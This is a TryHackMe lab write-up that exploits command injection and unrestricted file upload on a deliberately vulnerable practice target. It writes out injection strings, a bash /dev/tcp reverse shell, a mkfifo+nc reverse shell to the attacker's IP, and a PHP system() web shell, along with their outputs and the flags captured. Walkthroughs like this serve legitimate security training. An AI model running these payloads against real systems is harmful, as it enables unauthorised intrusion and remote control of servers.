








# TryHackMe — Shells Overview (Practical Task)

**Room:** Shells Overview
**Difficulty:** Easy
**My role:** Attacker (Kali, VPN access via TryHackMe)
**Target machine:** `10.49.145.199` (ShellOverview-Practical-Task-v5)
**Attacker tun0 IP:** `192.168.179.226`

---

## Intro

After going through the theory tasks on this room — reverse shells, bind shells, listeners like Netcat/Ncat/Socat/Rlwrap, shell payloads in Bash/PHP/Python, and web shells — the room finishes with a practical exercise. Two vulnerable web apps are hosted on the same target box:

- `10.49.145.199:8080` — landing page
- `10.49.145.199:8081` — vulnerable to **command injection**
- `10.49.145.199:8082` — vulnerable to **unrestricted file upload**

Goal: get a shell on each and grab the flag saved in `/` for both.

---

## Part 1 — Command Injection (port 8081)

### Setting up my attacker IP

First thing, I needed my actual reachable IP — since the target lives inside TryHackMe's infrastructure, that's my VPN tunnel IP (`tun0`), not my local VM's `eth0`. I checked:

```bash
ip a show tun0
```

```
3: tun0: <POINTOPOINT,NOARP,UP,LOWER_UP> mtu 1380 qdisc noqueue state UP group default qlen 1000
    link/none
    inet 192.168.179.226/18 brd 192.168.191.255 scope global tun0
```

So `192.168.179.226` was my listener IP for the whole exercise.

**Dead end #1:** At one point mid-exercise I lost my VPN connection without noticing — `ifconfig` stopped showing `tun0` at all, only `eth0` (`172.16.219.128`). I burned a good few minutes convinced my IP was wrong and arguing with myself over which interface to use, before double-checking TryHackMe's own "Access" panel, which confirmed the Internal Virtual IP Address as `192.168.179.226` on the Asia Pacific (Mumbai) VPN server, status Online/Connected.


Lesson: if `tun0` disappears from `ip a` / `ifconfig`, the VPN dropped — reconnect before assuming the IP itself is the problem.

### Exploring the app

Opened `http://10.49.145.199:8081` in the browser. It's a small "Hash The File" tool — takes a filename as input and returns its hash.



Tested it normally first with the suggested `hello.txt`:

```
328bc672ba8234075d81256d8881cf442adb46358365f61229f2be3f1b5fa046
hello.txt
```

Looked like a straightforward `sha256sum <filename>`-style backend command — a classic candidate for command injection if the filename isn't sanitized.

### Testing for injection

Tried chaining a second command with a semicolon:

```
hello.txt; id
```



And it worked immediately — the output showed both the hash **and** the result of `id`:

```
328bc672ba8234075d81256d8881cf442adb46358365f61229f2be3f1b5fa046
hello.txt
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



Confirmed: the app is running as `www-data`, and `;` is a working command separator with no sanitization at all.

### Getting a shell — first attempt (failed)

Set up my listener:

```bash
rlwrap nc -lvnp 443
```

Submitted the classic bash `/dev/tcp` reverse shell:

```
hello.txt; bash -i >& /dev/tcp/192.168.179.226/443 0>&1
```



...and nothing. The listener just sat there. I re-checked my IP about five different ways (screenshots of `ifconfig`, `ip a show tun0`, even the TryHackMe VPN panel) before realizing the actual problem: `/dev/tcp` is a **bash-specific** feature. If the backend on the target executes the injected command through `sh` (which is often symlinked to `dash`, not `bash`), that syntax just silently fails — no error, no output, nothing.

Confirmed this with:

```
hello.txt; ls -la /bin/sh /bin/bash
```

```
-rwxr-xr-x 1 root root 1234376 Mar 27 2022 /bin/bash
lrwxrwxrwx 1 root root 4 Nov 14 2022 /bin/sh -> dash
```



`/bin/bash` does exist on the box, so in hindsight the `/dev/tcp` payload probably should have worked as long as it was being executed *through bash specifically*. Since I couldn't be 100% sure how the app invokes commands under the hood (likely via `sh -c` or a PHP `exec()`/`system()` call that defaults to `/bin/sh`), I switched to a shell-agnostic payload instead of debugging further — the mkfifo + nc method works regardless of which shell is running it.

### Getting a shell — the payload that worked

```
hello.txt; rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.179.226 443 >/tmp/f
```

Listener lit up immediately:

```
listening on [any] 443 ...
connect to [192.168.179.226] from (UNKNOWN) [10.49.145.199] 33334
/bin/sh: 0: can't access tty; job control turned off
$
```



I was in — an interactive `sh` shell running as `www-data` on the target.

### Grabbing the flag

Poked around a bit first:

```
$ ls
hello.txt
index.php
style.css
$ cat hellow.txt
cat: hellow.txt: No such file or directory
$ cat hello.txt
Hello TryHackMe!

This is just a simple file with simple text.
```

(Typo on my end going for `hellow.txt` instead of `hello.txt` — small dead end, easy fix.)

Then went straight for the flag, which the task said would be in `/`:

```
$ cat /flag*
THM{0f28b3e1b00becf15d01a1151baf10fd713bc625}
```

Confirmed the full directory listing too, just to see what else was sitting in root:

```
$ ls -la /
total 88
drwxr-xr-x  1 root root 4096 Oct 18  2024 .
drwxr-xr-x  1 root root 4096 Oct 18  2024 ..
-rwxr-xr-x  1 root root    0 Oct 18  2024 .dockerenv
drwxr-xr-x  1 root root 4096 Oct 18  2024 bin
drwxr-xr-x  2 root root 4096 Sep  3  2022 boot
drwxr-xr-x  5 root root  340 Jul  4 11:00 dev
drwxr-xr-x  1 root root 4096 Oct 18  2024 etc
-rw-r--r--  1 root root   46 Oct 18  2024 flag.txt
drwxr-xr-x  2 root root 4096 Sep  3  2022 home
...
```



The `.dockerenv` file confirms this box runs the vulnerable app inside a Docker container — explains the minimal filesystem and why `bash` behavior with the injected shell wasn't 100% predictable.

**✅ Flag 1 (Command Injection):**
```
THM{0f28b3e1b00becf15d01a1151baf10fd713bc625}
```

---

## Part 2 — Unrestricted File Upload (port 8082)

### Exploring the app

Opened `http://10.49.145.199:8082` — a fake "Data Scientist Position" job listing page with a CV upload form.


Pulled the page source to see exactly how the form was wired up:

```bash
curl -s http://10.49.145.199:8082/ | head -50
```

```html
<form action="index.php" method="POST" enctype="multipart/form-data">
    <input type="file" name="fileToUpload" id="fileToUpload"><br><br>
    <button class="button upload-cv-trigger button_animated">
        <input class="button-text" type="submit" value="Upload Your CV" name="submit">
    </button>
</form>
```

Key details: uploads POST to `index.php`, and the file input's field name is `fileToUpload` — not something generic like `file`, which is what I guessed on my first (failed) attempt.

**Dead end:** My first try used the wrong endpoint and wrong field name entirely:

```bash
curl -F "file=@shell.php" http://10.49.145.199:8082/upload.php
```

```
404 Not Found
The requested URL was not found on this server.
```

Once I actually read the form HTML properly instead of guessing, this became a non-issue.

### Building the web shell

Simple one-liner PHP web shell:

```bash
echo '<?php if(isset($_GET["cmd"])){system($_GET["cmd"]);} ?>' > shell.php
```

### Uploading it

With the correct field name and endpoint:

```bash
curl -F "fileToUpload=@shell.php" -F "submit=Upload" http://10.49.145.199:8082/index.php
```

```
The file shell.php has been uploaded.
```

No filtering, no extension whitelist, no MIME type check — straight up unrestricted upload, exactly as advertised.

### Triggering the shell

The app didn't tell me exactly where it saved the file, but `/uploads/` is the conventional path and it worked first try:

```bash
curl "http://10.49.145.199:8082/uploads/shell.php?cmd=id"
```

Returned command execution as expected — confirmed the PHP was actually being interpreted and not just served as static text.



### Grabbing the flag

```bash
curl "http://10.49.145.199:8082/uploads/shell.php?cmd=cat+/flag*"
```

```
THM{202bb14ed12120b31300cfbbbdd35998786b44e5}
```

**✅ Flag 2 (Unrestricted File Upload):**
```
THM{202bb14ed12120b31300cfbbbdd35998786b44e5}
```

---

## Summary

| Vulnerability | Port | Technique | Flag |
|---|---|---|---|
| Command Injection | 8081 | `;` separator → mkfifo + `/bin/sh` reverse shell over nc | `THM{0f28b3e1b00becf15d01a1151baf10fd713bc625}` |
| Unrestricted File Upload | 8082 | Uploaded raw `.php` web shell via `fileToUpload` field, executed via `?cmd=` | `THM{202bb14ed12120b31300cfbbbdd35998786b44e5}` |

### What tripped me up (worth remembering for next time)

1. **VPN drops silently.** If `tun0` vanishes from `ifconfig`/`ip a`, that's a dead VPN tunnel, not a wrong IP. Always sanity check with TryHackMe's own "Access" panel if in doubt.
2. **`/dev/tcp` reverse shells are bash-only.** If a web app's backend executes injected commands through `sh` (often symlinked to `dash`), the bash-specific `/dev/tcp` redirection will silently do nothing — no error, no connection, no feedback. The mkfifo + `nc` method is more portable and doesn't care which shell is running it.
3. **Read the actual form HTML before guessing field names/endpoints.** My first upload attempt failed purely because I assumed a generic `file` param and `/upload.php` endpoint instead of checking the page source, which clearly stated `fileToUpload` → `index.php`.
4. **Check for `.dockerenv`.** A quick `ls -la /` after landing a shell tells you immediately if you're in a container, which explains a lot about minimal filesystems and shell quirks.

---

*Writeup by gopalakrishnsak — TryHackMe Jr Penetration Tester path, Shells Overview room.*
